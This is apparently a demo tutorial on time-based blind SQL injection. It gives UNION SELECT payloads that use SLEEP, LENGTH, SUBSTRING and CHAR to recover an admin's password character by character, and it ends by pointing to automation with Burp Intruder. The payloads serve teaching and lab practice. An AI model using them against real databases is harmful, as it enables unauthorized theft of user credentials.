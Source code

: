 We are going to extract the "admin" user's password from the database.

1. Determine the length of the admin user's password using the "LENGTH" function.

```sql
Is the password longer than 5 characters?
' UNION SELECT null,null,null FROM users WHERE username='admin' AND IF( LENGTH(password)>5, SLEEP(5), 'false') -- 
Is the password longer than 10 characters? 
' UNION SELECT null,null,null FROM users WHERE username='admin' AND IF( LENGTH(password)>10, SLEEP(5), 'false') -- 
Is the password less than 7 characters?
' UNION SELECT null,null,null FROM users WHERE username='admin' AND IF( LENGTH(password)<7, SLEEP(5), 'false') -- 
Is the password 6 characters long?
' UNION SELECT null,null,null FROM users WHERE username='admin' AND IF( LENGTH(password)=6, SLEEP(5), 'false') -- 
```

Result: Yes it is 6 characters long.

2. Get the first character of their password by triggering a delay. I tell you for free it begins with 's' to speed 
this along.

```sql
' UNION SELECT null,null,null FROM users WHERE username='admin' AND IF( SUBSTRING(password, 1, 1)='a', SLEEP(5), 'false') -- 
' UNION SELECT null,null,null FROM users WHERE username='admin' AND IF( SUBSTRING(password, 1, 1)='s', SLEEP(5), 'false') --
```

Comparing the first and second response time, there is a 5 second delay in responding to the second so we know the first
character was 's'. First character extracted. 

You can also extract the same information using the CHAR function as shown below:

```sql
' UNION SELECT null,null,null  FROM users WHERE username='admin' AND IF( SUBSTRING(password, 1, 1)=char(115), SLEEP(5), 'false') -- 
```

The ASCII number for 's' is 115 so the above will result in the 5 second delay. When doing automated extraction it is
probably easier to use this CHAR approach since you can exhaust the full range 0-256 easily. However, for this demo
we know the user's password is all lowercase a-z which is faster to show with that character set using strings and 
equals. Enjoy the demo? Try doing it using Char.
 
### Getting the gold using Burp Suite's Intruder like a boss!

Now all we really need to do is enumerate the full password by iterating through the admin user's password using 
"SUBSTRING".
